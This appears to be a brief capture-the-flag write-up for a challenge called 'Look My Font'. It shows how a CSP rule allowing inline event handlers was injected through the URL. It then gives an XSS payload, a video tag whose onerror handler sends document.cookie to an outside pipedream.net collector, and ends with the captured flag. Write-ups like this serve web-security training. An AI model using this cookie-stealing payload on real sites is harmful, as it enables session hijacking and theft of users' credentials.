 # Look My Font

Exploit by adding in the url a CSP rule:

'''
; script-src-attr 'unsafe-inline'
'''

Then in the hidden form:
'''html
<video src="non-existent-video.mp4" onerror="alert('Error loading video!')"></video>

<video src="non-existent-video.mp4" onerror="window.location.href='https://envaxh1ky3cse.x.pipedream.net/?' + document.cookie"></video>
'''

## Flag
flag{CSP_1nject10n_4r3_34sy!!!}